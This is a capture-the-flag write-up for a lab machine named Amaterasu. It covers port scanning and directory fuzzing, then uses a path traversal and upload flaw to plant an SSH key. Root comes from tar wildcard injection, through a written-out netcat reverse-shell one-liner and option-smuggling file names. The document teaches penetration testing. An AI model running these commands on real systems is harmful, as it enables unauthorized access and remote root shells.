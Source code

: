 First enumeration with nmap 

first ran a full port scan `nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn $IP`
```
# Nmap 7.94 scan initiated Wed Aug 16 21:28:50 2023 as: nmap -p- --min-rate 1000 -oN fulltcp.txt -v -Pn 192.168.172.249
Warning: 192.168.172.249 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.172.249
Host is up (0.22s latency).
Not shown: 65427 filtered tcp ports (no-response), 104 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
25022/tcp open  unknown
33414/tcp open  unknown
40080/tcp open  unknown

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 16 21:40:52 2023 -- 1 IP address (1 host up) scanned in 722.37 seconds
```
cool let's run nmap default script on the open ports 


```
# Nmap 7.94 scan initiated Thu Aug 17 07:59:08 2023 as: nmap -sC -sV -T4 -oN normal.txt -p 21,25022,33414,40080 -Pn 192.168.172.249
Nmap scan report for 192.168.172.249
Host is up (0.28s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.45.161
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
25022/tcp open  ssh     OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey: 
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open  unknown
| fingerprint-strings: 
|   GetRequest, HTTPOptions: 
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Thu, 17 Aug 2023 06:59:17 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   Help: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
40080/tcp open  http    Apache httpd 2.4.53 ((Fedora))
|_http-server-header: Apache/2.4.53 (Fedora)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: My test page
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33414-TCP:V=7.94%I=7%D=8/17%Time=64DDC545%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,184,"HTTP/1\.1\x20404\x20NOT\x20FOUND\r\nServer:\x20Werkzeug/
SF:2\.2\.3\x20Python/3\.9\.13\r\nDate:\x20Thu,\x2017\x20Aug\x202023\x2006:
SF:59:17\x20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent
SF:-Length:\x20207\r\nConnection:\x20close\r\n\r\n<!doctype\x20html>\n<htm
SF:l\x20lang=en>\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</h1
SF:</head>\n\x20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Er
SF:ror\x20response</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:
SF:\x20400</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20requ
SF:est\x20syntax\x20\('HELP'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>E
SF:rror\x20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20
SF:request\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x2
SF:0</body>\n</html>\n");
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 17 08:01:21 2023 -- 1 IP address (1 host up) scanned in 133.47 seconds
```
cool we got more info about the ports, let's enuerate further.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/7e6ae0bb-288d-46df-bd0a-7a5071702ded)

noticed a web server running on port `33414`, opening it on a browser, we got a 404 not found response on the page. let's fuzz.

```
┌──(n16hth4wk㉿n16hth4wk-sec)-[~/Documents/PG/Amaterasu]
└─$ ffuf -ic -u "http://192.168.172.249:33414/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -fc 404,403,401  -fs 0 -e .txt,.php,.bak,.sql,.jsp

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.172.249:33414/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .txt .php .bak .sql .jsp 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response status: 404,403,401
 :: Filter           : Response size: 0
________________________________________________

help                    [Status: 200, Size: 137, Words: 19, Lines: 2, Duration: 161ms]
info                    [Status: 200, Size: 98, Words: 14, Lines: 2, Duration: 172ms]
```
cool we got some dir, let's check em out

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e23f7a96-9e97-4446-b606-79e9ac9b835d)

checking out the help dir, we got to see some interesting things 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/1f92db45-c870-4f85-a126-ef1a091ee59a)

cool we got a path traversal vuln, let's look around to see what we can get.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/20465dd5-ac94-4ada-be82-1a1c1486b08e)

we got to see an home for user `alfredo`, remember we got an upload function, why don't we try overwrite the `authorized_keys` in the .ssh dir of user `alfredo`.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/b01184b7-bcb9-43ec-ab1a-76291e905099)

let's upload an `authorized_keys` to the .ssh dir. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/688fc242-eca5-4693-9db5-065051723e0c)

cool we uploaded it, let's confirm if we uploaded it successfully.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/e177c92c-7e7f-4162-8e73-fd2891d3c8bb)

Cool we uploaded it successfully. let's ssh into the target. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ec4a4044-5960-4be1-b826-5a04fb74e8b9)

Bankai!!! we are in.


## Privilege Escalation

```
[alfredo@fedora ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name  command to be executed

*/1 * * * * root /usr/local/bin/backup-flask.sh
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

[alfredo@fedora ~]$ 
```
checking the crontab, we can see a cronjob running every 1min, checking the cronjob we can see it is running a backup, using tar. we can exploit the tar bin using tar wildcard injection.

```
[alfredo@fedora ~]$ cd restapi/
[alfredo@fedora restapi]$ nano shell.sh
[alfredo@fedora restapi]$ cat shell.sh 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.241 21 >/tmp/f
[alfredo@fedora restapi]$ echo "" > "--checkpoint-action=exec=sh shell.sh"
[alfredo@fedora restapi]$ echo "" > --checkpoint=1
[alfredo@fedora restapi]$ 
```
steps on how to exploit wildcard injection. when the cronjob will execute the next minute, it will take those files as arguments/flags rather than a normal file name and send a reverse shell to us.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/eb7b62a1-4f32-4b9d-b894-1eb2312c091f)

cool we got root after waiting for 1 miniute. 

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/44c5fd4c-571e-44c0-8667-9c5d777b1b19)

and we are through 😜 interesting yeah ?
